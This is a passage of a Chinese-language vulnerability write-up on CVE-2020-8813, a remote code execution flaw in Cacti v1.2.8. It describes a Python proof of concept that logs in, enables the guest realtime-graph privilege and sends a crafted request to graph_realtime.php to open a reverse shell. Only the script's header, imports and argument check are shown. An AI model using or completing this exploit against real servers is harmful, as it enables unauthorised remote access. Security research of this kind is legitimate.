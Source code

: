 然后将其发送到应用程序以获取以下信息：

![image](img/7146ec585310eeb59592888ac07a02e4.png)

### 完整版的 poc

为了自动化利用过程，我编写了一个 python 代码来利用此漏洞，利用此漏洞将处理登录过程以启用“来宾实时图”特权，然后将生成有效负载并将精心制作的请求发送到“ graph_realtime.php”页面为了获得反向壳。

这是完整的利用代码：

```
#!/usr/bin/python3

# Exploit Title: Cacti v1.2.8 Remote Code Execution
# Date: 03/02/2020
# Exploit Author: Askar (@mohammadaskar2)
# CVE: CVE-2020-8813
# Vendor Homepage: https://cacti.net/
# Version: v1.2.8
# Tested on: CentOS 7.3 / PHP 7.1.33

import requests
import sys
import warnings
from bs4 import BeautifulSoup
from urllib.parse import quote

warnings.filterwarnings("ignore", category=UserWarning, module='bs4')

if len(sys.argv) != 6:
    print("[~] Usage : ./Cacti-exploit.py url username password ip port")
    exit()

```